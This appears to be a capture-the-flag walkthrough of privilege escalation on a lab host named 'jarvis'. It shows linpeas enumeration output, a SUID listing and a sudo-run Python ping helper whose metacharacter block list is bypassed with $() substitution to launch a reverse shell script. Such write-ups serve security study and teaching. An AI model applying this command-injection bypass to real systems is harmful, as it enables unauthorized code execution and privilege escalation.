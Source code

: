 ```
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information 

OS: Linux version 4.9.0-8-amd64 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18+deb9u1) ) #1 SMP Debian 4.9.144-3.1 (2019-02-19)

User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
Hostname: jarvis
Writable folder: /dev/shm

[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)

[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)

[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)
```

```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions 

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found

-rwsr-xr-x 1 root root 44K Mar  7  2018 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8

-rwsr-x--- 1 root pepper 171K Feb 17  2019 /bin/systemctl (Unknown SUID binary!)
-rwsr-xr-x 1 root root 31K Mar  7  2018 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 40K May 17  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 59K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 138K Jun  5  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 49K May 17  2017 /usr/bin/chfn  --->  SuSE_9.3/10
```

`/bin/systemctl` does not seem to be a normal binary according to linpeas. Normally, `systemctl` is located in `/usr/bin/systemctl`.

## sudo
![[Pasted image 20230504035938.png]]
![[Pasted image 20230504040110.png]]

Possible arbitrary code execution. However, i'm not allowed to add special characters or logical operators:
```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Invocation:
```python
if __name__ == '__main__':
	show_header()
...
	elif sys.argv[1] == '-p':
	    exec_ping()
	    exit()
```

What they didn't realize is that bash commands can be concatenated in with `$()`. This means I can run a bash script in `$(/tmp/reverse_shell.sh).`

![[Pasted image 20230504043035.png]]

